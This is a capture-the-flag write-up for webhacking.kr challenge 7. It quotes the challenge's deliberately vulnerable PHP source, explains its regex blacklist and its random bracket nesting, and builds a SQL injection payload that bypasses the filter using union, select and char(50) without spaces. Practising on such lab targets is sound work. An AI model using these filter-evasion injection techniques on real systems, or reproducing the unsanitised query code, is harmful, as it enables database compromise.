


## Analysis

This simple initial site contains only button for `auth` and link to source code. 



Clicking `auth` gives us a `Access_Denied` alert.



This is the source code linked.

```PHP
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 7</title>
</head>
<body>
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
?>
<a href=./?view_source=1>view-source</a>
</body>
</html>
```
Firstly, the site retrieves value of `val` using `GET` request (from URL). It then checks this value using following regex./

`preg_match("/2|-|\+|from|_|=|\\s|\*|\//i", $go)`

This regex checks if the value of `$go` contains any of the following:

- **`2`**: The number `2`.
- **`-`**: A hyphen (`-`).
- **`+`**: A plus sign (`+`).
- **`from`**: The word `from` (case-insensitive due to `/i`).
- **`_`**: An underscore (`_`).
- **`=`**: An equals sign (`=`).
- **`\s`**: Any whitespace character (space, tab, etc.).
- **`*`**: An asterisk (`*`).
- **`/`**: A forward slash (`/`).

If any of these are found in the value, the script will stop execution with `exit`.

The program randomly generates a number between 1 and 5 and executes a corresponding query based on the generated number. All queries are pretty much the same, but with different number of brackets - serving no other purpose than to sometimes ruin our SQL injection. If the query fails, then we will be hit with exit.

Value from query is then saved into `$data` and then compared with few ifs. This is the part that interests us:

```
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
```

Now we know, that we want first character of `data` to be `2`.

## Exploit

To beat this challenge we need to use SQL injection and account for forbidden characters.

This is the base URL:
```
https://webhacking.kr/challenge/web-07/index.php?val=1
```
We want to append it with our SQL injection query.  
The query we want to use, needs to return `2` as a first character.  
So we could go with:

```SQL
UNION SELECT 2
```

But spaces and number 2 are forbidden, so have to change them without affecting the logic.

```SQL
UNION(SELECT(CHAR(50)))
```

Note that `CHAR(50)` is just ascii value of number `2`.
Our final URL will look like this

```
https://webhacking.kr/challenge/web-07/index.php?val=1)union(select(char(50))
```

The last closing bracket will be appended by original query.